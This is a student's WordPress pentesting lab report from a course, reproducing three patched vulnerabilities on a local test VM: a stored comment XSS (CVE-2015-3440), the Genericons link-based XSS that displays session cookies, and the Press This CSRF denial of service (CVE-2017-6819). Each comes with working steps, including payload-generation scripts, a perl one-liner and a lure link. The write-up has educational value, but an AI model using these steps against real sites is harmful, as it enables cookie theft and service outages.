

# codepathWP
# Project 7 - WordPress Pentesting

Time spent: 45 hours spent in total

## Pentesting Report

1. (Required) WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: Cross-site Scripting vulnerability that is carried out by adding a large (over 64kb) comment to the vulnerable wordpress site, with embedded HTML. The excessive length of the comment results in the database truncating the code in the comment, causing the vulnerability. When successful, the html causes an alert on the site.
    - Vulnerability types: XSS CVE-2015-3440
    - Tested in version: WP version 4.2
    - Fixed in version: WordPress 4.2.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 

I used the domain name wpdistillery.vm  for my testing. I was logged in as admin in a firefox window, and had wpdistillery.vm/ open in a private window to run the code. 

Wrote a python script in the terminal to create content for a comment with over 64kb of info:
python3
Python 3.5.2 (default, Aug 18 2017, 17:48:00)
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> spacer=open("manyas.txt","+w")
>>> onethousand="A"*1024
>>> print(onethousand)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>>> spacer.
spacer._CHUNK_SIZE        spacer.__hash__(          spacer._checkClosed(      spacer.mode
spacer.__class__(         spacer.__init__(          spacer._checkReadable(    spacer.name
spacer.__del__(           spacer.__iter__(          spacer._checkSeekable(    spacer.newlines
spacer.__delattr__(       spacer.__le__(            spacer._checkWritable(    spacer.read(
spacer.__dict__           spacer.__lt__(            spacer._finalizing        spacer.readable(
spacer.__dir__(           spacer.__ne__(            spacer.buffer             spacer.readline(
spacer.__doc__            spacer.__new__(           spacer.close(             spacer.readlines(
spacer.__enter__(         spacer.__next__(          spacer.closed             spacer.seek(
spacer.__eq__(            spacer.__reduce__(        spacer.detach(            spacer.seekable(
spacer.__exit__(          spacer.__reduce_ex__(     spacer.encoding           spacer.tell(
spacer.__format__(        spacer.__repr__(          spacer.errors             spacer.truncate(
spacer.__ge__(            spacer.__setattr__(       spacer.fileno(            spacer.writable(
spacer.__getattribute__(  spacer.__sizeof__(        spacer.flush(             spacer.write(
spacer.__getstate__(      spacer.__str__(           spacer.isatty(            spacer.writelines(
spacer.__gt__(            spacer.__subclasshook__(  spacer.line_buffering
>>> spacer.write(onethousand*65)
66560
>>>
[1]+  Stopped                 python3

I took the proof of concept code from the klikki.fi website and added it into a comment with the results of my python script. This created a popup on the page. 

I then logged in as admin to the wordpress site and accepted the comment. 

In another private browser, with a clear history, I opened the http://wpdistillery.vm/ page and got an alert to appear. 

  - [ ] Affected source code: 
    - [Link 1] (https://github.com/WordPress/WordPress/commit/5c2b420b294082c055327aa49243c1da137c694d) 
Sources:
(https://klikki.fi/adv/wordpress2.html)
(https://wpvulndb.com/vulnerabilities/7945)
(https://cwe.mitre.org/data/definitions/79.html) ]

2. (Required) WordPress 4.1-4.2.1 - Unauthenticated Genericons Cross-Site Scripting (XSS)
  - [ ] Summary: 

After a user is convinced to click the link (e.g. phishing), code that was included in the link executes on the vulnerable wordpress site. In my version of the proof of concept, I demonstrate an alert that collects and displays the session cookies for the logged-in wordpress admin.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.2
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 

I created a link that took “the user” to a page with a clickable link in an html file. In my example, I created an :”important document” that displayed a link. Once the user clicks the link, appended code (to the link) displays an alert containing my cookies for my current wpdistillery.vm session.
<html>
<body>
<a href="http://wpdistillery.vm/wp-content/themes/twentyfifteen/genericons/example.html#1" This is important!</a>
</body>
</html>

 (I displayed the cookies as a proof-of concept, but those cookies could be captured and dumped to pastebin for example.)
This vulnerability only worked in an out of date version of chrome. Up-to-date chrome, and firefox both prevented this attack. 
  - [ ] Affected source code: WordPress 4.1-4.2.1
    - [Link 1] https://codex.wordpress.org/Version_4.2.2 

3. (Required) CVE-2017-6819 WordPress 4.2-4.7.2 - Press This CSRF DoS
  - [ ] Summary: The Authenticated admin goes to a site and clicks a malicious link that causes a denial of service to their admin portal. 
    - Vulnerability types: CSRF DoS CVE-2017-6819
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 

I used the domain name wpdistillery.vm  for my testing. I was logged in as admin in firefox.

I created a file called foo.txt with this perl script from the summer of pwnage site that contains 28000000 of the characters <> :
perl -e 'print "<>"x28000000' > foo.txt 

Then I created a dos.html file with a python script that created a lot of image tags. 

python3
Python 3.5.2 (default, Aug 18 2017, 17:48:00)
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> generator="%2Ffoo.txt&url-scan-submit=Scan&a=b'>"
>>> my = open("dos.html", "+w")
>>> for i in "abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz": my.write( generator[:-3]+i+generator[-2:])
...
121

This file proved to be too small during test, so I just took the content of the file and copy-pasted them a bunch of times to make the file bigger. 

I opened the dos.html file and edited it to that it would have html and a body tags. 

In the terminal, I ran simple server from the directory in which I had saved my two files (foo.txt and dos.html) :
$ python -m SimpleHTTPServer

On a vm, I ran wpdistillery.vm as the authenticated admin. I went to the link to my simple server, and clicked the “malicious” link to the dos.html file. I tried to reload the wpdistillery.vm page but it would not re-load for quite a long time, because the dos was successful.

  - [ ] Affected source code:
    - [Link 1] https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829 

## Assets
Windows 10, Kali Linux, Ubuntu, chrome, firefox, perl, python

## Resources

- [blog:Klikki Oy ]( http://klikki.fi/adv/wordpress2.html)
- [WordPress Developer Reference](https://wpvulndb.com/vulnerabilities/7979 )
-[blog: SumofPwn] (https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_press_this_function_allows_dos.html) 

GIFs created with [SimpleScreenRecorder, Pek, and Licecap] (http://www.maartenbaert.be/simplescreenrecorder/) (https://github.com/phw/peek) (https://www.cockos.com/licecap/)  

## Notes

Describe any challenges encountered while doing the work

1. Wpdistillery.vm had 404 errors that I had to correct by configuring the apache files.
2. The “Unauthenticated Genericons Cross-Site Scripting” vulnerability only worked in an out of date version of chrome. Up-to-date chrome, and firefox both prevented this attack.
3.  In the “Press This CSRF DoS” the dos.html file proved to be too small during test, so I was only dosing my site for a few seconds. I just took the content of the file and copy-pasted them a bunch of times to make the file bigger.

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
